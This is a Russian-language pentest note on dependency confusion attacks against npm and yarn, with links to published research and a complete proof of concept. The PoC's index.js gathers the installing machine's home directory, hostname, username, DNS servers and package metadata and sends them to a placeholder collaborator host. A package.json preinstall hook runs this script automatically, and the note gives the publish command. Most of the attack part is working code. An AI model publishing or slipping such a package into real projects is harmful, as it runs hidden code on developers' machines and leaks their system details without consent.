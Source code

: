 # Dependency Confusion Attack

Атака на цепочку поставок. Суть в том, что не используется контроль репозитория (должен быть зареган соответствующий покет в публичном registry) и контроль целостности пакета (хеш). Таким образом, мы можем зарегать пакет в публичном репозитории, и тот, кто его импортирует, исполнит наш код.

Оригинальный ресерч (скорее подсветил о проблеме, и как он ее раскручивал): [https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610)

Ресерч — как сделать нагрузку и подтвердить уязвимость: [https://dhiyaneshgeek.github.io/web/security/2021/09/04/dependency-confusion/](https://dhiyaneshgeek.github.io/web/security/2021/09/04/dependency-confusion/)

## JS

Здесь есть три популярных менеджера пакетов: Yarn, NPM, pnpm.

Вероятно, если есть пакет в одном менеджере, то он будет и в другом (но это не точно: когда публиковал через yarn publish, команда запросила данные от npm и опубликовала в оба менеджера).

### Проверить пакет

Организации: [https://www.npmjs.com/org/babel](https://www.npmjs.com/org/babel)

Пакеты:

* [https://www.npmjs.com/package/lodash](https://www.npmjs.com/package/lodash)
* [https://www.npmjs.com/package/@babel/core](https://www.npmjs.com/package/@babel/core)
* [https://registry.yarnpkg.com/react](https://registry.yarnpkg.com/react)
* [https://registry.yarnpkg.com/@babel/core](https://registry.yarnpkg.com/@babel/core)

### PoC

index.js:

```javascript
const os = require("os");
const dns = require("dns");
const querystring = require("querystring");
const https = require("https");

const packageJSON = require("./package.json");
const package_name = packageJSON.name;

const COLLABORATOR = 'tttttt.example.com'  // Collaborator

function poc() {
    const trackingData = JSON.stringify({
        p: package_name,
        c: __dirname,
        hd: os.homedir(),
        hn: os.hostname(),
        un: os.userInfo().username,
        dns: dns.getServers(),
        r: packageJSON ? packageJSON.___resolved : undefined,
        v: packageJSON.version,
        pjson: packageJSON,
    });
    
    var postData = querystring.stringify({
        msg: trackingData,
    });
    
    var options = {
        hostname: COLLABORATOR, //replace burpcollaborator.net with Interactsh or pipedream
        port: 443,
        path: "/",
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded",
            "Content-Length": postData.length,
        },
    };
    
    var req = https.request(options, (res) => {
        res.on("data", (d) => {
            process.stdout.write(d);
        });
    });
    
    req.on("error", (e) => {
        // console.error(e);
    });
    
    req.write(postData);
    req.end();
}

poc();
```

package.json

```json
{
  "name": "@example/test",
  "author": {
    "name": "Ike Murami",
    "email": "murami.ike@gmail.com"
  },
  "scripts": {
    "preinstall": "node index.js"
  },
  "version": "0.0.1",
  "description": "My DI playground",
  "main": "index.js",
  "license": "MIT"
}
```

Публикация (как публичный пакет организации):

```
npm publish --access public
```
